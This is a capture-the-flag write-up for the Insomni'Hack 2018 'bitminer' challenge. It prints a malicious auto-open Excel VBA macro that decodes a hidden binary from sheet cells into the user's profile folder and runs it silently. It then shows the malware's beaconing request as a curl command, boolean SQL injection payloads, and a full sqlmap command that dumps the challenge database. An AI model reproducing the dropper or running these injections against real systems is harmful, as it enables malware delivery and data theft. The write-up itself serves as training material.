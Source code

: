 ```yaml
---
title: Insomni'Hack 2018 - bba02-bitminer
published: false
---
```


# {{page.title}}
Solves: 21 / Points: 142
## Challenge description
Oh no I opened an email attachment AGAIN!! Help me to take my revenge. Here is the file I downloaded:
`vba02-bitminer_4052500b4f2120d3d3ae458b339ec1f16e89e870.xls`
## Challenge resolution
This begins again with a .xls file. We follow the same steps as the first `vba` challenge to get the macro:
```vbnet
Attribute VB_Name = "Module1"
Sub Auto_Open()
    Predict ("Sheet1")
End Sub
Sub Workbook_Open()
    Predict ("Sheet1")
End Sub

Private Function Predict(ByVal z As String) As String

    Dim zzzz As String
    zzzz = "bitcoin.txt"
    Dim zzzzz As String
    zzzzz = Environ("USERPROFILE")
    ChDrive (zzzzz)
    Dim zzzzzz As Integer
    ChDir (zzzzz)
    zzzzzz = FreeFile()
    Dim zzzzzzz As Integer
    Dim zz As Integer
    zz = 4
    Open zzzz For Binary As zzzzzz
    Dim zzz As Worksheet
    On Error GoTo e
    Set zzz = Worksheets(z)
    zzzzzzz = 1
    Do While zzz.Columns(zzzzzzz).Cells(zz, (3 / 2)).Value <> ""
        Do While zzz.Columns(zzzzzzz).Cells(zz, (109 / 87)).Value <> ""
            Put #zzzzzz, , CByte(zzz.Columns(zzzzzzz).Cells(zz, (5471 / 4871)).Value Xor (42 * 2 + 1))
            zzzzzzz = zzzzzzz + (781625 / 679142)
        Loop
        zz = zz + Sqr(2)
        zzzzzzz = 1
    Loop
    Close #zzzzzz
    zzzzzzzz = Shell(zzzz, vbHide)
    Exit Function
e:
    MsgBox "Unable to predict the future"
    Exit Function
End Function
```

We skip the obfuscated components to focus on the important behavior: it creates a file into the `%userprofile%` folder and runs it. We defang the macro by removing the 'Shell' line, open the Excel file and retrieve the 'bitcoin.txt' file it created. Running it in a controlled environment, we see it uses WMI to gather information about the system on which it runs and generates HTTP requests that can be translated into the following `curl` command:
```
curl -i -X 'POST' \
    -H 'User-Agent: Bitcoin Mining $couter 0.1 Beta 1337' -H 'Expect: 100-continue' \
    --data '<Base64-encoded string>' \
    'http://bitminer.insomni.hack/?a=benchmark'
```

The decoded Base64 is a JSON object with the following format:
```
{
    "cid":"NOT-A-SANDBOX",
    "cpu":"Intel(R) Core(TM) i5-4310U CPU @ 2.00GHz",
    "gpu":"Carte vidéo de base Microsoft"
}
```
After playing with the JSON contents, we identify that the server generates an error when a single quote is present in the gpu field. The vulnerability seems to be an SQL injection which can be easily checked by sending the following `gpu` value:
* `' or 1=1 --` always true, returns `go`
* `' or 1=0 --` always false, returns `pwaaa`

Since we are lazy hackers, we use sqlmap to extract the database contents. To do so, we use the `-r` option to define a file containing all of the request information (`*` is used to mark the injection point):
```
$ cat raw_request
POST /?a=benchmark HTTP/1.1
Host: bitminer.insomni.hack
User-Agent: Bitcoin Mining $couter 0.1 Beta 1337
Expect: 100-continue
Content-Length: 148
Content-Type: application/x-www-form-urlencoded

*
```

And run the following sqlmap command:
``$ sqlmap -r raw_request --tamper base64encode --prefix $'{"cid":"NOT-A-SANDBOX","cpu":"Intel(R) Core(TM) i5-4310U CPU @ 2.00GHz","gpu":"\' or 1=1 ' --suffix ' -- a"}' --skip-urlencode --level 5 --string go --technique B --dump``

Finaly, we retrieve the flag from the flag table: `INS{M1ninG_i5_t0o_H4rD_Lets_D0_Norm4l_Cyb3rCr1me}`